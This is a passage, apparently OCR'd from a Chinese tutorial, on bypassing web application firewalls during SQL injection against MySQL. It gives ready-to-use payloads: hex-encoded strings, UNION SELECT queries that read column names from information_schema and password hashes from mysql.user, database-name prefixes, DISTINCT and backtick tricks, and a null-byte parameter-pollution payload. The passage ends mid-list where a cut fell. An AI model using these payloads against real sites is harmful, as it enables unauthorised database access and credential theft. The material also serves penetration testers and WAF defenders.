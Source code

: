 ## 0x05 引号绕过
如果 waf 拦截过滤单引号的时候，可以使用双引号 在 mysql 里也可以用双引号作为字符串。  
```sql
select * from users where id='1';
select * from users where id="1";
```
也可以将字符串转换成 16 进制 再进行查询。  
```sql
select hex('admin');
select * from users where username='admin';
select * from users where username=0x61646D696E;
```
如果 gpc 开启了，但是注入点是整形 也可以用 hex 十六进制进行绕过。因为有些WAF会监测单引号，只要有单引号就会提示：‘这条语句可能存在SQL注入！所以就可以使用HEX绕过编码。
```sql
select * from users where id=-1 union select 1,2,(select group_concat(column_name) from
information_schema.columns where TABLE_NAME='users' limit 1),4;

select * from users where id=-1 union select 1,2,(select group_concat(column_name) from
information_schema.columns where TABLE_NAME=0x7573657273 limit 1),4;
```

## 0x06 添加库名绕过
有些WAF的拦截规则，并不会拦截 [库名].[表名] 这种模式。在MySQL中，也可以添加库名查询表，例如跨库查询mysql库中的users表内容。
```sql
select * from users where id=-1 union select 1,2,3,4 from users;
select * from users where id=-1 union select 1,2,3,4 from moonsec.users;

select * from users where id=-1 union select 1,2,3,concat(user,authentication_string) from mysql.user;
```

## 0x07 去重复绕过
可以使用distinct去除重复值，可以利用这点截断union select 从而绕过WAF。
```sql
select * from users where id=-1 union distinct select 1,2,3,version() from users;
```

## 0x08 反引号绕过
在 mysql 可以使用 \`这里是反引号\` 绕过一些 waf 拦截。字段可以加反引号或者不加，意义相同。
```sql
insert into users(username,password,email)values('moonsec','123456','admin@moonsec.com');

insert into users(`username`,`password`,`email`)values('moonsec','123456','admin@moonsec.com');
```

## 0x09 利用脚本语言特性绕过
在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一些 waf 的拦截。  
例如，使用如下payload：  
id=1%00&id=2 union select 1,2,3  
有些 waf 会去匹配第一个 id 参数 1%00 %00 是截断字符，waf 会自动截断，从而不会检测后面的内容。到了
程序中 id 就是等于 id=2 union select 1,2,3 从绕过注入拦截。  
其他语言和中间件特性：  